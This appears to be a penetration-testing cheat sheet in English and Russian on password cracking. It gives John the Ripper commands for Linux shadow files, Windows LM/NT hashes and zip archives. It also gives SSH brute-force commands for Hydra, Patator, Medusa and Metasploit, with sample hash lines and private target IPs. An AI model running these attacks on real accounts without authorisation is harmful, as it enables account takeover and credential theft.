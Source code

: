 # Linux Hashes

Then use the unshadow script to combine account info from passwd_copy with password information from shadow_copy, storing the results in combined

`unshadow passwd_copy shadow_copy > combined`

`john combined --format=crypt`

# Windows Hashes

## LM hash brute

Hashs.txt file format

`alex:1009:AF83DBF0052EE4717584248B8D2C9F9E:A65C3DA63FDB6CA22C172B13169D62A5:::`
`eugen:1006:09EEAB5AA415D6E4AAD3B435B51404EE:18DA6C2895C549E266745951D5DC66CB:::`


`john --test` - benchmark

`john hashs.txt`

`john --show hashs.txt` - вывод результатов

`cat ~/.john/john.pot` 

## NT hash brute

`john --format=nt hashs.txt`

## Cracking NT with a cracked LM

`/usr/share/metasploit-framework/tools/password/lm2ntcrack.rb -t NTLM -p INTERNET12 -a 1274D7B32A9ABDDA01A5067FE9FBB32B`

`-p` - cracked LM hash
`-a` - not cracked NTLM hash


# Smb brute

## Password Guessing (подбор пароля пользователя)

Отбираем пароли по текущей парольной политике.
By default in Server 2016, passwords must meet the following minimum requirements:

1. Passwords must not contain the user's account name or parts of the user's full name that exceed two consecutive characters.
2. Passwords must be at least seven characters in length.
3. Passwords must contain characters from three of the following four categories:

a. English uppercase characters (A through Z)
b. English lowercase characters (a through z)
c. Base 10 digits (0 through 9)
d. Non-alphabetic characters (for example, !, $, #, %)

`cat ./rockyou.txt | sudo pw-inspector -m 7 -n -u -l -p -c 3 -o ws2016default.lst`

## Password Spray (проверка одного пароля для многих пользователей)
This is a good technique when you have a large list of user accounts and you have to be careful of login policies locking out the account after too many failed password guesses.

## Hydra 
Если хочется графической оболочки _xHydra_. Необходимо указать:
- Target -> Target(s)
- Target -> Protocol
- Passwords -> Username
- Passwords -> Password (PasswordList)
- Passwords -> Try login as password 
- Passwords -> Try empty passwords
- Start -> Start

# SSH Brute

## Patator
Для подбора пароля средствами Patator используем команду:

`patator ssh_login host=192.168.60.50 user=test password=FILE0 0=/root/wordlist -x ignore:mesg=’Authentication failed’`

где:
- ssh_login — необходимый модуль
- host – наша цель
- user – логин пользователя, к которому подбирается пароль или файл с логинами для множественного подбора
- password – словарь с паролями
- `-x ignore:mesg=’Authentication failed’` — команда не выводить на экран строку, имеющую данное сообщение. Параметр фильтрации подбирается индивидуально.

## Hydra
Для подбора пароля используя Hydra выполним команду:

`hydra -V -f -t 4 -l bestadmin -P /usr/share/wordlists/rockyou.txt ssh://192.168.1.81`

где:
- -V – показывать пару логин+пароль во время перебора
- -f – остановка как только будет найден пароль для указанного логина
- -P – путь до словаря с паролями
- ssh://192.168.60.50 – указание сервиса и IP-адрес жертвы

## Medusa
Для подбора пароля с использованием Medusa выполним команду:

`medusa -h 192.168.60.50 -u test -P /root/wordlist -M ssh -f -v 6`

где:
- -h – IP-адрес жертвы
- -u – логин
- -P – путь к словарю
- -M – выбор модуля
- -f – остановка после нахождения валидной пары логин/пароль
- -v – настройка отображения сообщений на экране во время процесса подбора

## Metasploit
Произведем поиск инструмента для проведения brute-force атаки по SSH:
`search ssh_login`

Задействуем модуль:

`use auxiliary/scanner/ssh/ssh_login`

Для просмотра необходимых параметров, воспользуемся командой show options. Для нас это:
- rhosts – IP-адрес жертвы
- rport – порт
- username – логин SSH
- userpass_file – путь до словаря
- stop_on_success – остановка, как только найдется пара логин/пароль
- threads – количество потоков

Указание необходимых параметров производится через команду "set".

`set rhosts 192.168.60.50`

`set username test`

`set userpass_file /root/wordlist`

`set stop_on_success yes`

`set threads 4`

`set rport 22`

# Brute zip

1. Извлекает хеш пароля в формате, который подходит для John the Ripper.

	`zip2john <target.zip> > hash`
	
2. Попытка обращения хеша

	`john hash`



